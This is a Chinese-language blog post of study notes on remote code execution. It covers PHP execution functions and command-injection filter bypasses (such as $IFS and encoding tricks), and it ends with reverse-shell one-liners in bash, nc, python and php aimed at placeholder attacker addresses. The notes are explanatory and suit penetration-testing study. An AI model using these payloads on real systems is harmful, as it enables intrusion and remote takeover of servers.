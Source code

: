 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      学习笔记-远程代码执行               # 标题 
subtitle:   对以前的笔记做整理的拓展
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00远程代码执行-介绍：  
**远程代码执行**又叫**RCE**，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
可能导致远程调用的方式来攻击计算机或者控制计算机，危害风险高。攻击者提交恶意构造语句提交时，便容易导致攻击成功。  

**简单的说：**  
> 应用程序有时需要调用执行系统命令的函数，例如PHP中的system、exec、shell_exec、passthru、popen、proc_popen等函数可以执行系统命令，当这些函数中的参数可控时，就可以拼接恶意命令到正常命令中，达到攻击的目的。
一般在测试命令执行漏洞是经常使用的是一些不会危害对方系统以及涉及太多机密文件的命令，只要能够证实可以命令执行就好。     

在此类攻击中我们需要熟知linux和windows下的系统命令，和一些特性，下面简单说一下有关的命令连接符；    
windows系统    
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   
linux：   
；：执行完前面的再执行后面的语句。   
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   

## 常见的运用知识点！！！    
代码执行的几种常见方式：  
${}执行代码：${phpinfo()};  
eval:eval('phpinfo();');  
assert:<?php assert($_POST['a']);?> ,php7.0.29后不支持动态调用  
preg_replace：加上/e才会执行代码  
create_function():创建匿名函数来实现  
call_user_func()/call_user_func_array()：调用回调函数执行  
array_filter()：将数组中的值传入下一个参数，也就是传入callback函数。  

命令执行的几种常见方式：  
system()  
passthru()  
exec()  
shell_exec()  
`反引号  
ob_start()：打开输出缓冲，需要输出的内容都在内部缓冲区中，然后通过ob_end_fluch()输出。ob_start('system'),echo "ls",ob_end_flush()；即可完成攻击  
mail函数+LD_PRELOAD执行系统命令：首先LD_PRELOAD加载动态链接库（我们事先上传的重新定义了mail函数会调用的一个库函数的so文件），然后通过mail函数会调用标准库函数来完成命令执行。  

接下来总结一下rce中收集到的绕过姿势：  
- 空格（被过滤）：在bash下可以用以下字符代替空格：$IFS,${IFS},<,以及空参数%09这些  
- 命令分隔符：%0a，%0d，";"，&，|  
- 敏感字符绕过：  
①使用变量组合：$a=l;$b=s;$a$b   
②利用bash编码：转化为base64等  
③使用未定义的初始化变量放置在敏感词后面  
④使用连接符单引号  
⑤利用1>sh/1>ell.php这样的方式创建文件，然后利用ls -t>a,把内容存进a中再利用`sh a`这样的命令来执行，通常运用在有长度限制的过滤中使用  
⑥如果使用到网络地址，可以将网络地址转化为数字地址进行ip过滤  
⑦通配符？绕过，?a?在linux中可使用cat。  

对于无回显的命令执行，我们怎么才能知道呢？：  
①一句话反弹shell到自己的vps：|bash -i >& /dev/tcp/xxxxxI(你的vps的公网ip)/8080 0>&1  
②利用ceye平台，使用curl访问的时候会记录在平台上面或者注册ceye.io后我们会有一个三级域名，ping `命令`.我们的域名，就可以在ceye平台上看到解析日志和命令回显。  

添加一些命令执行用到的一句话反弹shell：
```bash -i >& /dev/tcp/1.2.3.4/9527 0>&1```    
```nc -e /bin/sh 1.2.3.4 9527```    
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",9527));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```   
``` php -r '$sock=fsockopen("192.168.37.131",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```    
其中含有/bin/sh的命令，会涉及到标准输入、标准输出、标准错误输出的重定向。实际情况需要根据命令执行条件来getshell如果可以的话。

